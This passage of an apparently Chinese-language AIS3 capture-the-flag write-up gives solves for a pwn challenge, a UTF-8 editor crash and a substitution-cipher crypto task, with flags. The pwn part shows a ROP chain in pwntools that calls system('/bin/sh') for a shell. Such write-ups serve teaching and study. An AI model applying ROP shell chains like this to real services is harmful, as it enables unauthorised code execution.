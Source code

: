    ```python
   payload = padding
   payload += p64(pop_rdi)
   payload += p64(bin_sh)
   payload += p64(ret)
   payload += p64(system)
   print(payload)
   super_write(payload)
   p.sendline(b'c')
   p.interactive()

   ```

**Flag:** `AIS3{ma4a4a4aGiCian}`

### UTF-8 Editor — Crash

1. 輸入 `你ㄏ`，讓 `ㄏ` 注音組字的階段，然後刪掉 `你ㄏ`，會留下一個類似空白的東西，輸入進去，然後 print 就解了。
2. 猜測應該是我的環境有一些編碼問題之類的，肯定不是 intended XD

**Flag:** `AIS3{unsigned_intergers_are_so_cool}`

## Crypto

### SC

1. `cipher.py` 建立隨機的 substitution cipher，然後給我們替換過後的 `cipher.py.enc` 和 `flag.txt.enc`。因為 `cipher.py.enc` 有足夠多字元，因此我可以用它重建 substitution 的 mapping，然後把 `flag.txt.enc` decrypt 回來。

   ```python
   import string

   charset = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
   enc_charset = [None for _ in range(len(charset))]

   print(charset)

   txt = open('./cipher.py', 'r').read()
   enc = open('./cipher.py.enc', 'r').read()

   for i in range(len(txt)):
       c = txt[i]
       enc_c = enc[i]
       if c in charset:
           idx = charset.index(c)
           enc_charset[idx] = enc_c


   charset = ''.join(charset)
   enc_charset = ''.join([x if x is not None else '@' for x in enc_charset])

   T = str.maketrans(enc_charset, charset)

   with open('./flag.txt.enc', 'r') as f:
       enc_flag = f.read()
   print(enc_flag.translate(T))
   ```
